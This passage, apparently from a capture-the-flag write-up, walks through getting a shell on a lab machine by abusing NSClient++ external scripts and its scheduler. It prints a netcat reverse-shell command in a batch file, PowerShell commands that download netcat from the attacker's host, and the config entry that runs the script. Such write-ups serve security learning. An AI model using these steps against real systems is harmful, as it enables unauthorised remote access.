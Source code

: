 Now I can access `https://127.0.0.1:8443/`, and login with the password:

![image-20200413103430765](https://0xdfimages.gitlab.io/img/image-20200413103430765.png)

To get execution, the [exploit-db](https://www.exploit-db.com/exploits/46802) write-up was not sure helpful, and the web interface was really frustrating. It was very unstable, and made trouble shooting incredibly difficult.

I was able to get success by taking the following steps based on [How To Run Commands](https://docs.nsclient.org/howto/run_commands/) in the NSClient documentation. The steps are for directly interacting with the `nsclient.ini` file, but I eventually got a feel for how to use the web interface to get the same results:
1. Create `shell.bat`:

   ```

   \programdata\nc.exe 10.10.14.24 443 -e cmd

   ```

   This assumes that `nc.exe` is in `C:\programdata` (I will put it there) and it will connect back to me with a shell when run.
2. Upload `nc64.exe` and `shell.bat` to `C:\programdata\`. I started a Python HTTP server on my host, and used PowerShell’s `wget` command:

   ```

   nadine@SERVMON C:\ProgramData>powershell wget http://10.10.14.24/nc64.exe -outfile nc.exe
   nadine@SERVMON C:\ProgramData>powershell wget http://10.10.14.24/shell.bat -outfile shell.bat

   ```
3. In the NSClient++ GUI, first I’ll associate my script with a command by clicking Settings > external scripts > scripts, and then “+Add new”.

   ![image-20200413124942222](https://0xdfimages.gitlab.io/img/image-20200413124942222.png)

</picture>

When I hit “Add”, `df` now shows up under scripts above, and the Changes tab turns red. I can go to Changes and save this to the disk config. This will add the following to the config file:

```

   ; in flight - TODO
   [/settings/external scripts/scripts/df]
   
   ; COMMAND - Command to execute
   command = C:\\programdata\\shell.bat

```
1. Now under scheduler > schedules I’ll hit the “+Add new” button. I need to add two things here. First, I’ll edit the section to add a new name, and then give it an interval of 10 seconds:

   ![image-20200413125324355](https://0xdfimages.gitlab.io/img/image-20200413125324355.png)

</picture>
